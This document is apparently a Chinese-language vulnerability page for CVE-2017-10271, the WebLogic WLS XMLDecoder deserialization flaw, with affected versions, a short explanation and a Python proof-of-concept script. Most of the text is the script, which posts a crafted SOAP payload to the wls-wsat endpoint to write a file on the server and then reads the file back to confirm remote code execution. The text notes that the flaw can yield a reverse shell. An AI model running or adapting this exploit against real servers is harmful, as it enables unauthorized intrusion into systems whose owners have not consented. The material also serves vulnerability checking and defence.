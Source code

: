 - 10.3.6.0
- 12.1.3.0.0
- 12.2.1.1.0

### 漏洞说明

CVE-2017-10271 漏洞产生的原因大致是 Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。攻击者发送精心构造的 xml 数据甚至能通过反弹 shell 拿到权限。

### POC

```python
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Upgrade-Insecure-Requests': '1',
    'Content-Type': 'text/xml'
    }
def Webogic_XMLDecoder_poc(url):
    #url="http://192.168.189.137:7001"
    posturl=url+'/wls-wsat/CoordinatorPortType'
    data = '''
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Header>
            <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter">
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>xmldecoder_vul_test</string></void><void method="close"/>
                    </object>
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
    </soapenv:Envelope>
    '''
     
    print (url)
    try:
        r=requests.post(posturl,data=data,headers=headers,timeout=5)
        geturl=url+"/wls-wsat/test.txt"
        print (geturl)
        check_result = requests.get(geturl,headers=headers,timeout=5)
        if 'xmldecoder_vul_test' in check_result.text:
            print ("[+]存在WebLogic WLS远程执行漏洞(CVE-2017-10271)")
    except:
        print ("[-]不存在WebLogic WLS远程执行漏洞(CVE-2017-10271)")

if __name__ == '__main__':
    url = "http://192.168.189.137:7001"
    Webogic_XMLDecoder_poc(url)
```
